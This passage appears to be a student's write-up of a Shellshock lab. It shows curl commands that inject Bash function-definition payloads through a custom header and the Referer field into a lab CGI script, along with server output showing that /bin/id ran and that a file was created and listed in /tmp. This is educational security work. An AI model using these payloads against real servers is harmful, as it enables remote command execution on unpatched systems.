 
##### Task 3.B: Get the server to tell you its process’ user ID. You can use the /bin/id command to print out the ID information.

```
seed@VM:~$ curl -H "VARTEST: () { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/id" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/vul.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: curl/7.68.0
> Accept: */*
> VARTEST: () { echo hello;}; echo "Content-Type: text/plain;"; echo; echo; /bin/id
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 06:05:26 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 55
< Content-Type: text/plain;
< 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host www.seedlab-shellshock.com left intact
```

##### Task 3.C: Get the server to create a file inside the /tmp folder. You need to get into the container to see whether the file is created or not, or use another Shellshock attack to list the /tmp folder.

```
seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/touch /tmp/Task-3C.ATTACK" www.seedlab-shellshock.com/cgi-bin/vul.cgi

seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/ls -l /tmp/" www.seedlab-shellshock.com/cgi-bin/vul.cgi
-rw-r--r-- 1 www-data www-data 0 Oct  7 12:52 Task-3C.ATTACK
```

![](image-6.png)

##### Task 3.D: Get the server to delete the file that you just created inside the `/tmp` folder.
